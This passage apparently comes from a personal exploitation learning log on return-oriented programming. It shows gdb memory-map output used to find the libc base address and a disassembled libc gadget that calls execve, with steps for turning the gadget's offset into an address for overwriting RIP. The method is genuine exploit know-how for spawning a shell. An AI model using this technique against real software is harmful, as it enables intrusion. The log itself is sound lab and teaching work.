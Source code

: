 ```
```

Sucess! Now we just need to overwrite RIP with one of
the addresses.

But we only got the offsets. To get the proper addresses
we need to add the offset to the address `libc` will be
loaded to.

### Putting It All Together

We can get the address `libc` is loaded to by running with `gdb`,
breaking at some point and calling `info proc map`:

```
(gdb) info proc map
process 5827
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x555555555000     0x1000        0x0 /mnt/felipe/uff/inmetro/hacking_log/binary_exploitation/rop/rip
      0x555555754000     0x555555755000     0x1000        0x0 /mnt/felipe/uff/inmetro/hacking_log/binary_exploitation/rop/rip
      0x555555755000     0x555555756000     0x1000     0x1000 /mnt/felipe/uff/inmetro/hacking_log/binary_exploitation/rop/rip
      0x7ffff7a3a000     0x7ffff7bcf000   0x195000        0x0 /lib/x86_64-linux-gnu/libc-2.24.so
      0x7ffff7bcf000     0x7ffff7dcf000   0x200000   0x195000 /lib/x86_64-linux-gnu/libc-2.24.so
      0x7ffff7dcf000     0x7ffff7dd3000     0x4000   0x195000 /lib/x86_64-linux-gnu/libc-2.24.so
      0x7ffff7dd3000     0x7ffff7dd5000     0x2000   0x199000 /lib/x86_64-linux-gnu/libc-2.24.so
      0x7ffff7dd5000     0x7ffff7dd9000     0x4000        0x0 
      0x7ffff7dd9000     0x7ffff7dfc000    0x23000        0x0 /lib/x86_64-linux-gnu/ld-2.24.so
      0x7ffff7fd7000     0x7ffff7fd9000     0x2000        0x0 
      0x7ffff7ff8000     0x7ffff7ffa000     0x2000        0x0 [vvar]
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x23000 /lib/x86_64-linux-gnu/ld-2.24.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x24000 /lib/x86_64-linux-gnu/ld-2.24.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
```

As you can see, `libc` is loaded to `0x7ffff7a3a000`. Add
this to one of gadgets offset and we got our address! If we
try `0xd6b9f` from this snippet:

```
d6b9a:	e8 81 53 00 00       	call   dbf20 <__close@@GLIBC_2.2.5>
d6b9f:	48 8b 05 12 23 2c 00 	mov    rax,QWORD PTR [rip+0x2c2312]        # 398eb8 <__environ@@GLIBC_2.2.5-0x3080>
d6ba6:	48 8d 74 24 60       	lea    rsi,[rsp+0x60]
d6bab:	48 8d 3d 67 b0 08 00 	lea    rdi,[rip+0x8b067]        # 161c19 <_libc_intl_domainname@@GLIBC_2.2.5+0x159>
d6bb2:	48 8b 10             	mov    rdx,QWORD PTR [rax]
d6bb5:	e8 86 1a fe ff       	call   b8640 <execve@@GLIBC_2.2.5>
```
